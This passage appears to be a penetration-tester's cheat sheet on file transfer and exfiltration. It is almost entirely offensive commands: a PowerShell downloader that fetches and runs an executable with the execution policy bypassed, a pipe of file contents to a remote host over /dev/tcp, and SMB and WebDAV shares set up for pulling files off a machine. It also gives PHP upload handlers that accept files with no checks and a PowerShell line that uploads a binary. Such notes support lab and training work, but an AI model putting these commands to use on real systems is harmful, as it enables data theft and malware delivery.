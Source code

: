 ```powershell
echo $file = "$bad.exe" >> wget.ps1   
echo $webclient.DownloadFile($url,$file) >> wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

```

#### Exfil

Linux
```bash
# if ssh use `scp` 
nc -lvnp 80 > $file
cat $file > /dev/tcp/10.10.10.10/80
```

Windows
```bash
# Exil over smb - alternative ius samba
impacket-smbserver -ip 10.10.10.10 share $(pwd) -smb2support -user test -password test 
net use z: \\10.10.10.10\share /user:test test
New-PSDrive -Name "EXfilDisk" -PSProvider "FileSystem" -Root "\\10.10.10.10\share"
copy $file Z:\


wsgidav --port=80 --host=192.168.45.231 --root=/tmp --auth=anonymous
# 



```

Host a http server, make directory owned by www-data
```bash
mkdir /var/www/uploads -p
chown www-data: /var/www/uploads 
```
Script to placed in /uploads/upload.php
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Upload
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://$IP/upload.php', 'bad.exe')
```

bad.php contains:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```
